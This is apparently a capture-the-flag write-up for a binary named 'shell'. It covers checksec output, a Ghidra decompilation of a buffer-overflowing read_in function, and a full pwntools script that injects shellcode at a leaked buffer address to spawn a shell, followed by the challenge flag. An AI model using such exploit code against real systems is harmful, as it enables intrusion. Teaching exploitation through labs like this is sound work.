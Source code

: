 
This write up is for the challenge shell

The first thing I did was to first run file and checksec to see the basic protections that the binary had. I saw that it there was no NX meaning that we could inject our own shellcode.
```

```
After running the binary one can see that it prints out the location of the start of the buffer, if there is a buffer overflow we have a clear shellcode injection.

I opened it up in ghidra and I saw
```

void read_in(void)

{
  undefined1 local_44 [60];
  
  printf("Buffer location = 0x%08x\n",local_44);
  read(0,local_44,144);
  return;
}
```
This is what I was looking for, now all I need to do is create a script that injects shellcode, pads to the return address and returns to the beginning of our shellcode.

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './shell' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1305  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    p.recvuntil(b'location = ')
    buff = p.recvn(10) # Reads in leaked location
    buff = int(buff,16) #cast to packable value
    shellcode = asm(shellcraft.sh())
    payload = b''
    payload += shellcode
    leng = len(shellcode)
    print(leng)
    payload += b'A' * (68 - leng)
    payload += p32(buff)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()

```
This then pops a shell and we can cat the flag

CWE{popping_shells_is_neat_HRhzM3AR}
<!--stackedit_data:
eyJoaXN0b3J5IjpbOTg5MDA2NjQwLDc3ODU4OTI2MF19
-->